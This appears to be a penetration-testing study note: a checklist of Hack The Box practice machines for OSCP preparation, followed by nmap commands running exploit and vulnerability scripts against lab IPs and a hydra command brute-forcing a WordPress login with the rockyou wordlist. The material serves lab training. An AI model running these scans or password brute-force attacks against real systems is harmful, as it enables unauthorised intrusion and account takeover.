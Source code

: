 # HTB boxes
- [x] Lame
- [x] Beep
- [ ] Bastard
- [ ] Grandpa/Granny
- [ ] Mirai
- [ ] Solidstate
- [ ] Jeeves
- [ ] Tally (Much harder than anything on OSCP, but you've gotta get used to windows)
- [ ] Bashed
- [ ] Nibbles
- [ ] Sense
- [ ] Valentine
- [ ] Bart (Again, same issue but really get used to windows)
- [ ] Chatterbox
- [ ] Popcorn
- [ ] Haircut
- [ ] Nineveh
- [ ] Shocker
- [ ] Cronos
- [ ] Arctic
- [ ] Optimum
- [ ] Davel

nmap -sV --script=exploit,external,vuln,auth,default -oN nmap-version-exploits.txt 10.11.1.220
nmap -sV --reason --dns-server 10.11.1.220 -oN nmap-versions.txt 10.11.1.220

hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -t 32 -I

